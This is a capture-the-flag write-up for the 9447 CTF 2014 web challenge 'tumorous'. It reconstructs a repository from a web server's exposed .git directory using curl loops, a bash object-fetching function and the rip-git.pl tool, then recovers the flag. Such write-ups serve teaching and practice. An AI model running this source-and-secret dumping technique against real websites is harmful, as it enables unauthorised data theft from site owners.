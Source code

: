 # 9447 CTF 2014: tumorous

**Category:** Web
**Points:** 100
**Solves:** 224
**Description:**

> They are following me. They are after my token. I have to hide it somewhere. I’m not very good at hiding.
>
> [tumorous.9447.plumbing](http://tumorous.9447.plumbing/)

## Write-up

**Note:** This challenge is a harder version of [the _bashful_ challenge](https://github.com/ctfs/write-ups/tree/master/9447-ctf-2014/bashful#readme).

The page at <http://tumorous.9447.plumbing/> contains:

> 13/2/2004: I learned how to html, yay!
> 12/4/2004: I learned how to use git, yay!
> 13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.
> 08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.
> 10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.
> 10/9/2004: I can't forget my token. What do I do?
> 11/9/2004: I panicked and deleted the token. It is the work of evil doers.
> 12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.

The second line hints at Git, so let’s try visiting <http://tumorous.9447.plumbing/.git/>. It returns a 403 Forbidden status code, indicating that the `.git` directory exists on the server, although directory listings are disabled.

An easy way to figure out which files are usually present in a `.git` folder is to create a new Git repository.

```bash
$ cd $(mktemp -d /tmp/tumorous-XXXX)

$ git init

$ cd .git

$ ls -Rls
total 24
8 -rw-r--r--   1 mathias  wheel   23 Nov 30 15:24 HEAD
8 -rwxr--r--   1 mathias  wheel  137 Nov 30 15:24 config
8 -rw-r--r--   1 mathias  wheel   73 Nov 30 15:24 description
0 drwxr-xr-x  11 mathias  wheel  374 Nov 30 15:24 hooks
0 drwxr-xr-x   3 mathias  wheel  102 Nov 30 15:24 info
0 drwxr-xr-x   4 mathias  wheel  136 Nov 30 15:24 objects
0 drwxr-xr-x   4 mathias  wheel  136 Nov 30 15:24 refs

./hooks:
total 80
 8 -rwxr-xr-x  1 mathias  wheel   452 Nov 30 15:24 applypatch-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel   896 Nov 30 15:24 commit-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel   189 Nov 30 15:24 post-update.sample
 8 -rwxr-xr-x  1 mathias  wheel   398 Nov 30 15:24 pre-applypatch.sample
 8 -rwxr-xr-x  1 mathias  wheel  1642 Nov 30 15:24 pre-commit.sample
 8 -rwxr-xr-x  1 mathias  wheel  1352 Nov 30 15:24 pre-push.sample
16 -rwxr-xr-x  1 mathias  wheel  4951 Nov 30 15:24 pre-rebase.sample
 8 -rwxr-xr-x  1 mathias  wheel  1239 Nov 30 15:24 prepare-commit-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel  3611 Nov 30 15:24 update.sample

./info:
total 8
8 -rw-r--r--  1 mathias  wheel  240 Nov 30 15:24 exclude

./objects:
total 0
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 info
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 pack

./objects/info:

./objects/pack:

./refs:
total 0
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 heads
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 tags

./refs/heads:

./refs/tags:

```

Now we have a list of files and folders we can look for on the server: `http://tumorous.9447.plumbing/.git/HEAD`, `http://tumorous.9447.plumbing/.git/config`, etc. Let’s recreate the expected directory structure locally, and download these files:

```bash
mkdir -p /tmp/restored-git-repo/.git;
cd /tmp/restored-git-repo/.git;
mkdir -p {hooks,info,objects/{info,pack},refs/{heads,tags}};
for file in HEAD config description info/exclude refs/heads/master; do
  curl "http://tumorous.9447.plumbing/.git/${file}" > "${file}";
done;
cd ..;
```

Whenever we run a Git command in the repository, we get an error:

```bash
$ git log
fatal: bad object HEAD
```

Let’s see what `HEAD` refers to:

```bash
$ cat .git/HEAD
ref: refs/heads/master

$ cat .git/refs/heads/master
3dbda5576912236328494b11f9361dca66c0218a
```

Due to [the way Git stores objects](http://git-scm.com/book/en/v2/Git-Internals-Git-Objects), the object `3dbda5576912236328494b11f9361dca66c0218a` is expected to be at `.git/objects/3d/bda5576912236328494b11f9361dca66c0218a`. Let’s write a function to download such objects based on their hash:

```bash
function fetchobject() {
  hash="${1}";
  dir="${hash:0:2}";
  file="${hash:2:38}";
  mkdir -p ".git/objects/${dir}";
  path=".git/objects/${dir}/${file}";
  curl -s "http://tumorous.9447.plumbing/${path}" > "${path}";
}
```

Now we can easily download the first missing piece, i.e. object `3dbda5576912236328494b11f9361dca66c0218a`:

```bash
$ fetchobject 3dbda5576912236328494b11f9361dca66c0218a
```

Now, let’s try running `git log` again:

```bash
$ git log
error: Could not read 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
fatal: Failed to traverse parents of commit 3dbda5576912236328494b11f9361dca66c0218a
```

Another missing object! Let’s download it and try again:

```bash
$ fetchobject 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a

$ git log
commit 3dbda5576912236328494b11f9361dca66c0218a
Author: root <root@ip-172-31-5-48.ap-southeast-2.compute.internal>
Date:   Sat Nov 29 03:21:33 2014 +0000

    My token now exists!

commit 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
Author: John Doe <fsck@you.me>
Date:   Tue Oct 7 08:32:28 2014 +0000

    I'm new to this repo stuff
```

Yay! We can now view the commit log. Effectively this is now a _bare_ Git repository: it contains the repository data but not the actual files. Let’s restore those as well:

```bash
$ git config --local --bool core.bare false

$ git checkout -f
error: unable to read sha1 file of token (0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0)

$ fetchobject 0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0

$ git checkout -f
error: unable to read sha1 file of index.html (3bba60ef48578d0619aff067c7f6596c1426ce96)

$ fetchobject 3bba60ef48578d0619aff067c7f6596c1426ce96

$ git checkout -f

$ ls
index.html token

$ cat token
9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

The flag is `9447{IM_SITTING_ON_A_PILE_OF_GOLD}`.

### Alternate solution

This challenge is trivial to solve using [rip-git](https://github.com/kost/dvcs-ripper/blob/master/rip-git.pl):

```bash
$ perl ./rip-git.pl -v -u http://tumorous.9447.plumbing/.git/

$ cat token
9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

## Other write-ups and resources

* [Write-up by Hypnosec](https://github.com/hypnosec/writeups/blob/master/2014/9447-ctf/web/tumorous.md)
* <http://wiremask.eu/9447-ctf-2014-web-100-tumorous/>
